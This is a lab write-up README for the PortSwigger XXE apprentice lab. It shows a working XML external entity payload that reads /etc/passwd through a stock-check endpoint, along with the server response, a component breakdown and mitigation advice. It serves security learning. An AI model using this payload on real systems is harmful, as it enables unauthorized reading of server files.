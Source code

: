 📁 `README.md` — XXE via External Entity (Apprentice)

# 📄 Exploiting XXE Using External Entities to Retrieve Files

**🧪 Lab Level:** Apprentice  
**🔐 Vulnerability:** XML External Entity (XXE)  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Retrieve the contents of `/etc/passwd` using a basic XXE injection.

---

## 🔍 Lab Summary

This lab demonstrates how an XML parser vulnerable to external entities can be exploited to read files from the server's filesystem.  
The "Check stock" feature parses XML input and reflects back invalid input in the response — which is ideal for testing XXE.

---

## 🚦 Steps to Exploit

### 📥 Original HTTP Request

```http
POST /product/stock HTTP/1.1
Host: [YOUR-LAB-HOST]
Content-Type: application/xml
Content-Length: [XX]

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
````

---

### 💣 Malicious Payload (External Entity Injection)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

---
![XXE](https://github.com/Kabilala/xxe/blob/main/lab1/lab1.png)

### 🧾 Server Response

When the injection is successful, the server returns an error containing the contents of `/etc/passwd`:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

---

## 🧠 Technical Breakdown

| Component                                   | Purpose                                                                   |
| ------------------------------------------- | ------------------------------------------------------------------------- |
| `<!DOCTYPE>`                                | Declares a DTD (Document Type Definition)                                 |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Defines an external entity pointing to the target file                    |
| `&xxe;`                                     | Triggers the entity resolution, injecting file contents into the XML body |

---

## 🔐 Mitigation Techniques

To prevent this vulnerability in production systems:

* Disable DTD processing in your XML parsers
* Use secure libraries (e.g. `defusedxml` in Python, `SAXParserFactory.setFeature` in Java)
* Sanitize or avoid XML input from untrusted sources
* Apply the principle of least privilege: ensure the app cannot read sensitive files

---

## 📚 Resources

* [🛡️ PortSwigger XXE Labs](https://portswigger.net/web-security/xxe)
* [📄 OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [🔥 PayloadsAllTheThings: XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)

---

## 👩‍💻 Author

**Kaouthar Belkebir**
Cybersecurity Enthusiast | Pentest Learner | PortSwigger & TryHackMe Explorer
[LinkedIn](https://www.linkedin.com/in/kaouthar-belkebir-ab453223b) | [Credly Certifications](https://www.credly.com/users/kawtar-belkebir)

